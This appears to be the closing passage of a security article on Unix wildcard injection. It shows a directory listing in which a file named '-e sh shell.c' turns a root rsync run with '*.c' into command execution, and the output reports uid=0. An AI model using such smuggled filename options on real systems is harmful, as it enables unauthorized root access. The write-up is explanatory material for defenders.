 [root@defensecode public]# ls -al
total 76
drwxrwxrwx.  2 user user  4096 Mar 28 04:49 .
drwx------. 24 user user  4096 Oct 28 18:32 ..
-rwxr-xr-x.  1 user user 20480 Oct 28 19:13 admin.php
-rwxr-xr-x.  1 user user    34 Oct 28 17:47 ado.php
-rwxr-xr-x.  1 user user   187 Oct 28 17:44 db.php
-rwxr-xr-x.  1 user user   201 Oct 28 17:43 download.php
-rw-r--r--.  1 leon leon     0 Mar 28 04:45 -e sh shell.c
-rwxr-xr-x.  1 user user    43 Oct 28 17:35 file1.php
-rwxr-xr-x.  1 user user    56 Oct 28 17:47 footer.php
-rwxr-xr-x.  1 user user   357 Oct 28 17:36 global.php
-rwxr-xr-x.  1 user user   225 Oct 28 17:37 header.php
-rwxr-xr-x.  1 user user   117 Oct 28 17:36 inc.php
-rwxr-xr-x.  1 user user   111 Oct 28 17:38 index.php
-rwxr-xr-x.  1 user user    94 Oct 28 17:38 script.php
-rwxr-xr-x.  1 leon leon    31 Mar 28 04:45 shell.c
-rw-r--r--.  1 root root   101 Mar 28 04:49 shell_output.txt

There were two files owned by user 'leon', as listed below.

-rw-r--r--.  1 leon leon     0 Mar 28 04:45 -e sh shell.c
-rwxr-xr-x.  1 leon leon    31 Mar 28 04:45 shell.c

After 'rsync' execution, new file shell_output.txt whose owner is root 
is created in same directory.

-rw-r--r--.  1 root root   101 Mar 28 04:49 shell_output.txt

If we check its content, following data is found.

[root@defensecode public]# cat shell_output.txt
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

Trick is that because of the '*.c' wildcard, 'rsync' got '-e sh shell.c' option
on command line, and shell.c will be executed upon 'rsync' start.
Content of shell.c is presented below.

[root@defensecode public]# cat shell.c
/usr/bin/id > shell_output.txt





Techniques discussed in article can be applied in different forms on various popular 
Unix tools. In real-world attacks, arbitrary shell options/arguments could be hidden 
among regular files, and not so easily spotted by administrator. Moreover, in case of 
cron jobs, shell scripts or web applications that calls shell commands, that's not 
even important. Moreover, there are probably much more popular Unix tools susceptible 
to previously described wildcard attacks.
Thanks to Hrvoje Spoljar and Sec-Consult for a few ideas regarding this document.
